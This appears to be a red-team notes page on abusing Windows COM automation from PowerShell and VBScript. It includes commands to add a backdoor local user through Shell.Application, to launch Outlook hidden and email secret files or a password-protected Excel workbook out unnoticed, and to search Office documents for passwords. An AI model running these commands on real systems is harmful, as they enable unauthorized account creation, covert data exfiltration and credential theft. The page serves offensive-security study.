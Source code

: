 # COM objects
---
# Navigation
- **[List all COM objects](#List%20all%20COM%20objects)**
- **[invoke COM objects](#invoke%20COM%20objects)**
- **[Using VBScript to create COM objects](#Using%20VBScript%20to%20create%20COM%20objects)**
- **[Automating sending emails via Outlook](#Automating%20sending%20emails%20via%20Outlook)**
- **[Automating Microsoft Excel using COM](#Automating%20Microsoft%20Excel%20using%20COM)**
- **[Searching through Office documents using COM automation](#Searching%20through%20Office%20documents%20using%20COM%20automation)**
---
## List all COM objects
```powershell
# One-liner from stackoverflow
gci HKLM:\Software\Classes -ea 0| ? {$_.PSChildName -match '^\w+\.\w+$' -and (gp "$($_.PSPath)\CLSID" -ea 0)} | ft PSChildName
```
## invoke COM objects
```powershell
$shell = New-Object -com Shell.Application
```
- List objects
```powershell
$shell | Get-Member
```
- Invoke commands (examples)
```powershell
$shell.Open("c:\windows")
$shell.ShellExecute("net","user abuqasem s3cretP@WD /add")
$shell.ShellExecute("net","user abuqasem /del")
```
## Using VBScript to create COM objects
Using VBScript, we can also create COM objects and interact with them with just a few lines of code. VBScript is commonly used by **real-world malware**
1. Create a file using your favorite text editor and name it **comdemo.vbs**.
2. Then add the following two lines to the file:
```powershell
set shell = CreateObject("Shell.Application")
shell.Open("c:")
```
3. Save the file and execute it via cscript:
```powershell
cscript.exe comdemo.vbs
#or -> . ./comdemo.vbs
```
5. If everything worked as expected, you will see an Explorer Shell pop up.

## Automating sending emails via Outlook
- Making sure it's running
```powershell
$isRunning = Get-Process | where {$_.ProcessName -eq "outlook"} ; if ($isRunning -eq $null) { Start-Process Outlook -WindowStyle Hidden }
```
- Sending mail
```powershell
$to = ""
$subject = "Secret Document"
$content = cat secretfile.txt
$outlook = new-object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content
$mail.Send()
```
- Searching inboxes for passwords and secrets
```powershell
# TODO !
```
## Automating Microsoft Excel using COM
The preceding commands will launch Excel and show it on the desktop if we set **Visible = $true**. If you want to have the application stay unnoticed by the user, keep the default as **Visible = $false**.
```powershell
$excel = new-object -com Excel.Application
$excel.Visible = $true
```
Next, let's add a workbook to the newly opened Excel application and write content into the sheet:
```powershell
$workbook = $excel.Workbooks.Add()
$cell = $workbook.ActiveSheet.Cells(1,1)
$cell.Value = "Here goes the secret message!"
$workbook.Password = "Test"
$workbook.SaveAs("HomefieldAdvantage")
$workbook.Close()
$excel.Quit()
```
We can combine the Outlook and Excel examples by sending the password-protected file over email using the following snippet:
```powershell
$to = ""
$subject = "Secret Document"
$content = "Important message attached."
$outlook = new-object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.Attachments.Add("HomefieldAdvantage")
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content
$mail.Send()
```
> Alternatively you can use Excel's built-in sendmail: https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail

## Searching through Office documents using COM automation
- Searching through word docs for passwords using [**Search-Word**](https://github.com/wunderwuzzi23/searchutils/blob/master/Search-OfficeDocuments.ps1)
```powershell
Search-Word <Document> -Pattern "<Filter>" | Format-Table
# Search recursively
gci -recurse *.docx | Search-Word -Pattern "<Filter>" | Format-Table

# By default the filter value is: "password"
```
Same goes for  **`Search-OfficeDocuments`** and **`Search-Excel`** functions in the script above.